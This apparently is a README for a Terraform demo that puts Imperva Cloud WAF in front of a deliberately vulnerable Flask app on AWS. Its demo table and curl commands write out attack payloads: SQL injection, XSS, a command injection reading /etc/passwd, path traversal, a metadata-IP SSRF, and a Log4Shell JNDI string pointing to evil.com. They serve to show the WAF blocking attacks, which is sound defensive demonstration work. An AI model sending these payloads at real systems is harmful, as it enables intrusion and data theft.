

# Imperva Cloud WAF (Imperva for AWS / vPoP) Demo Application

An end-to-end automated demonstration environment for **Imperva Cloud WAF (Imperva for AWS / vPoP)** on Amazon Web Services (AWS) using Terraform, the official `imperva/incapsula` provider, and automated **NS1 DNS integration** for seamless SSL certificate management.

---

## 🏛️ Architecture Overview

```
[ Client / Attacker / Browser ]
             │ (HTTPS - Custom Domain or CloudFront URL)
             ▼
   [ AWS CloudFront Edge ]
             │ Origin: imperva_origin_domain (HTTPS TLS 1.2)
             │ Header: x-impv-origin-domain
             ▼
   [ Imperva Cloud WAF (vPoP) ]
     ├─ OWASP Top 10 Web Engine
     ├─ API Security & BOLA Protection
     ├─ Advanced Bot Protection (ABP)
     └─ Zero-Day Virtual Patching
             │ (Clean traffic only)
             ▼
   [ AWS Application Load Balancer (ALB) ]
             │ (Port 80 / 443)
             ▼
   [ EC2 Demo Web Application (Flask / OWASP Top 10) ]
```

### Key Integration Points
1. **AWS CloudFront Origin**: Pointed directly to `imperva_origin_domain` (the Incapsula CNAME provided upon site onboarding).
2. **Custom Origin Header**: Injects `x-impv-origin-domain: <imperva_origin_domain>` into origin requests.
3. **Origin Request Policy**: Uses AWS Managed `Managed-AllViewerAndCloudFrontHeaders` so headers and client metadata are forwarded to Imperva.
4. **Cache Policy**: Uses AWS Managed `Managed-CachingDisabled` to ensure all dynamic attack payloads are forwarded for real-time inspection.
5. **Imperva Data Center**: Configured with the AWS ALB DNS name as the single origin data center.
6. **NS1 DNS Automation**: Automates DNS validation for ACM SSL certificates and creates the CloudFront CNAME record dynamically.

---

## 🌐 NS1 DNS Integration & Custom Alternative Domain

This project provides built-in automation for **NS1 DNS** and **AWS Certificate Manager (ACM)** via the `set_alternative_domain` feature flag in [`var.tf`](file:///Users/danny.milshtein/Documents/Lab/Terraform/vPoP%20Demo%20App/var.tf):



### How the Dual-Mode Operation Works:

| Setting in `terraform.tfvars` | CloudFront Domain & SSL | ALB Port & Protocol | NS1 DNS Actions |
| :--- | :--- | :--- | :--- |
| **`set_alternative_domain = true`** | **Custom Domain (`aliases`)** with official **Amazon ACM Certificate in `us-east-1`**. | **HTTPS:443 (TLS 1.2)** with official **Amazon ACM Certificate in active region** (e.g. `il-central-1`). | • Creates ACM DNS CNAME validation records.<br>• Creates CNAME pointing `alternative_domain_name` ➔ CloudFront distribution. |
| **`set_alternative_domain = false`** *(Default)* | **Default CloudFront domain** (`https://*.cloudfront.net`) with Amazon's built-in SSL certificate. | **HTTP:80** forwarding directly to target group. | No NS1 API calls or DNS modifications made. |

---

## 📁 Repository Structure

```
.
├── var.tf                      # All input variables (AWS_region, tags, Incapsula keys, NS1 keys, domain)
├── terraform.tfvars.example    # Configuration template for easy setup
├── versions.tf                 # Terraform, AWS, Imperva, and NS1 Provider version requirements
├── providers.tf                # AWS (regional & us-east-1), Imperva, and NS1 provider definitions
├── vpc.tf                      # Multi-AZ VPC, Subnets, Internet Gateway, Routing
├── security_groups.tf          # ALB and EC2 Security Groups
├── alb.tf                      # AWS ALB, Target Group, HTTP/HTTPS Listeners, and Routing Rules
├── ec2.tf                      # EC2 Instance with encrypted EBS, SCP compliance & auto-deploy
├── incapsula.tf                # Imperva site_v3 (PUBLIC_CLOUD / AWS) and cloud_origin_domain
├── cloudfront.tf               # CloudFront distribution with Imperva origin & custom header
├── dns_ns1.tf                  # NS1 DNS integration for ACM certificate validation & CNAME routing
├── outputs.tf                  # Endpoints, Site ID, Origin Domain, and cURL commands
├── app/                        # Demo Application Codebase
│   ├── app.py                  # Flask backend with full OWASP Web & API Top 10 suites
│   ├── templates/index.html    # Modern CyberSec Glassmorphism Web Portal
│   └── static/
│       ├── style.css           # Thales/Imperva theme styling
│       └── app.js              # Interactive AJAX attack simulator and live header inspector
└── README.md                   # Complete SE demo manual and reference
```

---

## ⚙️ Prerequisites

1. **Terraform**: CLI version `>= 1.3.0` installed.
2. **AWS Account**: Configured AWS credentials with permissions for VPC, EC2, IAM, ALB, CloudFront, and ACM.
3. **Imperva Account**:
   - `incapsula_api_id` & `incapsula_api_key` (obtained from *Imperva Management Console ➔ Account Settings ➔ API Keys*).
4. **Domain Name**:
   - A domain name (e.g. `vpop-demo.darc-syn.com`) for site onboarding (`alternative_domain_name`).
5. **NS1 Account** *(Optional - only required if `set_alternative_domain = true`)*:
   - NS1 API Key with permissions to manage DNS records in your zone.

---

## 🚀 Deployment Instructions

### 1. Configure Variables
Copy `terraform.tfvars.example` to `terraform.tfvars`:
```bash
cp terraform.tfvars.example terraform.tfvars
```

### 2. Choose Your Deployment Mode

#### Option A: Deploy with Custom Alternative Domain & Automated NS1 DNS
In `terraform.tfvars`:
```hcl
# AWS Region & Tags
AWS_region              = "il-central-1" # (or us-east-1, eu-west-1, etc.)
tag_name                = "imperva-vpop-demo-app"
tag_owner_email         = "danny.milshtein@thalesgroup.com"
tag_manager_email       = "manager@thalesgroup.com"
tag_team_email          = "cybersec-se-team@thalesgroup.com"
tag_description         = "vPoP Demo App for AWS"
tag_environment         = "SE Demo Lab"
tag_dataclassification  = "THALES GROUP LIMITED DISTRIBUTION"

# Imperva Cloud WAF Credentials
incapsula_api_id        = "YOUR_INCAPSULA_API_ID"
incapsula_api_key       = "YOUR_INCAPSULA_API_KEY"

# Custom Domain & NS1 DNS Automation
alternative_domain_name = "vpop-demo.darc-syn.com"
set_alternative_domain  = true
ns1_api_key             = "YOUR_NS1_API_KEY"
ns1_zone                = "darc-syn.com"
```

#### Option B: Deploy with Default CloudFront Endpoint (Fast Testing)
In `terraform.tfvars`:
```hcl
AWS_region              = "il-central-1"
tag_name                = "imperva-vpop-demo-app"
tag_owner_email         = "danny.milshtein@thalesgroup.com"
tag_manager_email       = "manager@thalesgroup.com"
tag_team_email          = "cybersec-se-team@thalesgroup.com"

incapsula_api_id        = "YOUR_INCAPSULA_API_ID"
incapsula_api_key       = "YOUR_INCAPSULA_API_KEY"
alternative_domain_name = "vpop-demo.darc-syn.com"

# Set to false to test using https://*.cloudfront.net without modifying DNS
set_alternative_domain  = false
```

---

### 3. Initialize and Deploy

Initialize Terraform and download providers:
```bash
terraform init
```

Deploy the infrastructure (*Note: using `-parallelism=1` is recommended for Imperva API sequential requirements*):
```bash
terraform apply -parallelism=1
```

When deployment finishes, Terraform outputs:
- `demo_portal_url`: The entry URL for accessing the demo dashboard.
- `imperva_site_id`: The ID of your site in the Imperva Console.
- `imperva_origin_domain`: The CNAME assigned by Imperva.
- Ready-to-copy cURL test commands.

---

## 🎯 Demo Scenarios & SE Presentation Guide

Open the `demo_portal_url` in your browser. The application includes live interactive tabs:

### 1. OWASP Web Top 10 Demonstration
| Vulnerability | Attack Vector | Expected Result | Imperva Engine |
| :--- | :--- | :--- | :--- |
| **A03: SQL Injection** | `' OR '1'='1' --` | **HTTP 403 Forbidden** | SQLi Syntax Tree Engine |
| **A03: Cross-Site Scripting** | `<script>alert(1)</script>` | **HTTP 403 Forbidden** | XSS Deep Packet Inspection |
| **A03: Command Injection** | `; cat /etc/passwd` | **HTTP 403 Forbidden** | OS Command Injection Shield |
| **A01: Path Traversal (LFI)** | `../../../../etc/passwd` | **HTTP 403 Forbidden** | Illegal Resource Access |
| **A10: SSRF** | `http://169.254.169.254/...` | **HTTP 403 Forbidden** | SSRF Metadata Protection |
| **A06: Log4Shell (CVE-2021-44228)** | `${jndi:ldap://evil.com/a}` in `X-Api-Version` | **HTTP 403 Forbidden** | Zero-Day Virtual Patching |
| **A05: Security Misconfiguration** | `/.env` or `/.git/config` | **HTTP 403 Forbidden** | Vulnerability Scanner Shield |

### 2. OWASP API Top 10 Demonstration
- **API1: Broken Object Level Authorization (BOLA)**: Demonstrates cross-tenant data access prevention.
- **API3: Mass Assignment**: Demonstrates OpenAPI schema enforcement blocking injected `{"role": "super_admin"}` parameters.
- **API4: Unrestricted Resource Consumption**: High-concurrency OTP flood test demonstrating Adaptive Rate Limiting & Bot Protection.
- **API5: Broken Function Level Auth (BFLA)**: Restricted administrative function validation.
- **API9: Shadow / Deprecated APIs**: Live API Discovery categorization.

### 3. Live Header & Request Inspector
Shows the real-time headers passed from CloudFront through Imperva into the backend, including `x-impv-origin-domain`, `CloudFront-Viewer-Country`, and `X-Forwarded-For`.

---

## 💻 CLI Verification (Terminal)

Test blocking directly from your terminal:

```bash
# 1. SQL Injection
curl -i -s -H "Host: vpop-demo.darc-syn.com" "https://YOUR_CLOUDFRONT_DOMAIN/api/vulnerabilities/sqli?query=%27%20OR%20%271%27=%271%27%20--"

# 2. Command Injection
curl -i -s -H "Host: vpop-demo.darc-syn.com" "https://YOUR_CLOUDFRONT_DOMAIN/api/vulnerabilities/rce?cmd=%3B%20cat%20%2Fetc%2Fpasswd"

# 3. Path Traversal
curl -i -s -H "Host: vpop-demo.darc-syn.com" "https://YOUR_CLOUDFRONT_DOMAIN/api/vulnerabilities/lfi?file=..%2F..%2F..%2F..%2Fetc%2Fpasswd"

# 4. Log4Shell Header Injection
curl -i -s -H "Host: vpop-demo.darc-syn.com" -H "X-Api-Version: \${jndi:ldap://evil.com/a}" "https://YOUR_CLOUDFRONT_DOMAIN/api/vulnerabilities/log4shell"
```

---

## 🧹 Cleanup & Teardown

To destroy all created resources:
```bash
terraform destroy -parallelism=1
```
